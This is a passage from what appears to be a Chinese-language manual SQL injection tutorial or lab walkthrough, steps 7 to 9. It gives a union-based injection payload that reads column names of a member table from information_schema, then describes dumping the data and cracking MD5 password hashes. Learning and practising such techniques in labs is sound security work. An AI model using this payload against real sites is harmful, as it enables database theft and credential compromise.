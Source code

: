    目前已知的表：

   - StormGroup_member
   - notice

7. 尽可能条件符合存储用户信息的表，查看其字段

   member直译为成员，先查看StormGroup_member表的字段：`and 1=2 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name="StormGroup_member"`

   ![手工注入-8](image\SQL注入\手工注入-8.png)

8. 根据库、表名查询实际数据

   ![手工注入-9](image\SQL注入\手工注入-9.png)

9. 借助工具尽可能解密MD5；复杂的密码基本上不存在解密的希望

   ![手工注入-10](image\SQL注入\手工注入-10.png)
